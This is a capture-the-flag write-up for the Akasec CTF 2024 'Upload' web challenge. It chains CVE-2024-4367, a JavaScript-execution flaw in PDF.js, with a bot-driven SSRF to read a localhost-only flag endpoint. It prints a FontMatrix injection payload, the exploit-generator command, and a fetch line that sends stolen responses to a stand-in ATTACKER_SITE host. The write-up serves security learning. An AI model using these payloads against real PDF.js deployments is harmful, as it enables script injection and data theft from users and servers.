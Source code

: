 ```yaml
---
name: Upload (2024)
event: Akasec CTF 2024
category: Web
description: Writeup for Upload (Web) - Akasec CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Upload

## Video walkthrough

[![VIDEO](https://img.youtube.com/vi/XrSOaHoeJCo/0.jpg)](https://www.youtube.com/watch?v=XrSOaHoeJCo "XSS in PDF.js (CVE-2024-4367) and SSRF - Upload [Akasec CTF 2024]")

## Description

> Navigate a mysterious file upload journey.

## Solution

The challenge provides two URLs. The first is a web application with `/home`, `/register` and `/login` endpoints. The other is an admin bot, so I immediately think about XSS. Before registering an account, I decided to check the source code.

### Source code

#### bot.js

I'll start with `bot.js` since there's less code, and that's where we might expect the flag to be on an XSS challenge (admin cookie). There's no flag, though; the bot simply visits a user-provided URL.


```js
const page = await context.newPage();
// Visit URL from user
console.log(`bot visiting ${urlToVisit}`);
await page.goto(urlToVisit, {
    waitUntil: "networkidle2",
});
await sleep(8000);
cookies = await page.cookies();
console.log(cookies);

// Close
console.log("browser close...");
await context.close();
```


#### app.js

When I opened the main app, I quickly found the flag endpoint.


```js
app.get("/flag", (req, res) => {
    let ip = req.connection.remoteAddress;
    if (ip === "127.0.0.1") {
        res.json({ flag: "AKASEC{FAKE_FLAG}" });
    } else {
        res.status(403).json({ error: "Access denied" });
    }
});
```


It's validating the IP to ensure the request originated from the localhost, so it looks like we've got an [SSRF](https://portswigger.net/web-security/ssrf) vulnerability. We can provide the URL to the bot; it will visit the page and get the flag in the response - simple. The question is, how can we retrieve the contents of that response?

An `/upload` endpoint allows users to upload files and then returns the URL of the hosted file.


```js
app.post("/upload", upload.single("file"), (req, res) => {
    const fileData = {
        filename: req.file.filename,
        path: req.file.path,
        user: req.user,
    };

    uploadfile.insert(fileData, (err, newDoc) => {
        if (err) {
            res.status(500).send(err);
        } else {
            res.redirect("/view/" + req.file.filename);
        }
    });
});
```


There's some validation on the file type allowed. - it must be PDF format.


```js
const upload = multer({
    storage: storage,
    fileFilter: (req, file, cb) => {
        if (file.mimetype == "application/pdf") {
            cb(null, true);
        } else {
            cb(null, false);
            return cb(new Error("Only .pdf format allowed!"));
        }
    },
});
```


### XSS

This makes me think about [Server Side XSS (Dynamic PDF)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf), so I created an account and started testing different payloads. First, I thought we might need to change the content type to `application/pdf` but keep the filename as `exploit.html`. It's easy to bypass the MIME check, but you'll see a flood of errors in the console and messages like `InvalidPDFException`. That makes sense since it's trying to render a PDF 😅 Anyway, I didn't waste much time before returning to the source code.

We want to know the type of PDF generator being used in case there are any known vulnerabilities.


```js
const PDFJS = require("pdfjs-dist");
```


I Googled `pdfjs-dist exploit` and the 5th result stood out to me; [CVE-2024-4367 – Arbitrary JavaScript execution in PDF.js](https://codeanlabs.com/blog/research/cve-2024-4367-arbitrary-js-execution-in-pdf-js/)

> This bug allows an attacker to execute arbitrary JavaScript code as soon as a malicious PDF file is opened. This affects **all Firefox users** (<126) because PDF.js is used by Firefox to show PDF files

> PDF.js is bundled into a Node module called `pdfjs-dist`, with ~2.7 million weekly downloads according to NPM

The blog post is around 6 weeks old, so it's a good candidate! I'd encourage you to read the complete analysis because there's a lot in there, but here are some of the key points:

-   The bug lies in the glyph (font) rendering code
-   Some fonts are handled by the browser's font renderer, e.g. TrueType
-   For more obscure fonts, PDF.js turns glyph (character) descriptions into curves on the page
-   To improve performance, a path generator function is pre-compiled for every glyph
-   The function takes a list of `cmds` (potentially dangerous if an attacker can control)
-   One of these commands is interesting (`{ cmd: "transform", args: fontMatrix.slice() },`) as it copies the array with `slice()` and inserts it into the body of the `Function` object. It's assumed to be a numeric array, so injecting a string may lead to unintended behaviour!
-   The value of `fontMatrix` defaults to `[0.001, 0, 0, 0.001, 0, 0]` but is often set to a custom matrix directly by a font (metadata)
-   Unfortunately, most PDF readers will only accept a numeric array, i.e., even if we can inject a string into the matrix within the font metadata, it won't be processed
-   Luckily, there is another way to specify a `fontMatrix` - within a PDF metadata object (instead of the font)
-   Therefore, if we insert something like `/FontMatrix [1 2 3 4 5 (cat)]` into the PDF, we'll find that `cat` is inserted directly into the function body.
-   All that's left is to take care of the syntax, leveraging the trailing parenthesis: `/FontMatrix [1 2 3 4 5 (0\); alert\('cat')]`

They provide a link to a [PDF PoC](https://codeanlabs.com/wp-content/uploads/2024/05/poc_generalized_CVE-2024-4367.pdf), so I downloaded it and uploaded it to the challenge site. It pops an alert! We can review the request in Burp to see the responsible code.


```js
<< /BaseFont /SNCSTG+CMBX12 /FontDescriptor 6 0 R /FontMatrix [ 1 2 3 4 5 (1\); alert\('origin: '+window.origin+', pdf url: '+\(window.PDFViewerApplication?window.PDFViewerApplication.url:document.URL\)) ] /Subtype /Type1 /Type /Font >>
```


So, how did I develop my XSS payload? I told ChatGPT I want to `fetch the contents of another page and then send them to another web server` 🤓

It initially provides some ridiculously long payloads, but through our iterative feedback (aka "shorter plz"), we guide it to produce a more reasonable one.


```js
fetch("/flag")
    .then((r) => r.text())
    .then((t) => fetch(`https://ATTACKER_SITE/?c=${encodeURIComponent(t)}`));
```


I got some errors and figured I wasn't escaping all the required characters, so I Googled `CVE-2024-4367 PoC` and came across another [PoC](https://github.com/LOURC0D3/CVE-2024-4367-PoC).

> A type check was missing when handling fonts in PDF.js, which would allow arbitrary JavaScript execution in the PDF.js context. This vulnerability affects Firefox < 126, Firefox ESR < 115.11, and Thunderbird < 115.11.

> If pdf.js is used to load a malicious PDF, and PDF.js is configured with isEvalSupported set to true (which is the default value), unrestricted attacker-controlled JavaScript will be executed in the context of the hosting domain.


```bash
python exploit.py "fetch('/flag').then(r => r.text()).then(t => fetch(`https://ATTACKER_SITE/?c=${encodeURIComponent(t)}`));"
```


The PDF was generated successfully, but I got an error about `bad substitution.` Turns out I just needed to escape some characters.


```bash
python exploit.py "fetch('/flag').then(r => r.text()).then(t => fetch(\`ATTACKER_SITE/?c=\${encodeURIComponent(t)}\`));"
[+] Created malicious PDF file: poc.pdf
[+] Open the file with the vulnerable application to trigger the exploit.
```


When I upload the PDF and visit the URL, my browser console and web server logs are filled with errors.


```bash
200		GET	/?c=%7B%22error%22%3A%22Access%20denied%22%7D
```


### SSRF

Now that we know we can exfiltrate the HTTP response, we just need to share the link of our note with the admin/bot. The XSS exploit will _forge_ a _request_ to the `/flag` endpoint, and since it comes from the _server-side_ (localhost), the validation check will pass.

_Note:_ Maybe this is technically CSRF since the bot simulates an admin user, and the request happens via the headless Chrome browser rather than directly on the server? Then again, the admin bot code is technically on the server side, and the validation function checks that the request came from the server side (localhost), so I'm labelling it SSRF for now! Let me know if you disagree ✅

Regardless, the XSS payload will subsequently issue a request to our server, with the response included in the GET parameter.


```bash
200		GET	/?c=%7B%22flag%22%3A%22AKASEC%7BPDF_1s_4w3s0m3_W1th_XSS_%26%26_Fr33_P4le5T1n3%7D%22%7D
```


The final step is to URL-decode the flag.


```bash
urldecode %7B%22flag%22%3A%22AKASEC%7BPDF_1s_4w3s0m3_W1th_XSS_%26%26_Fr33_P4le5T1n3%7D%22%7D
{"flag":"AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3}"}
```


Flag: `AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3}` 🕊✌
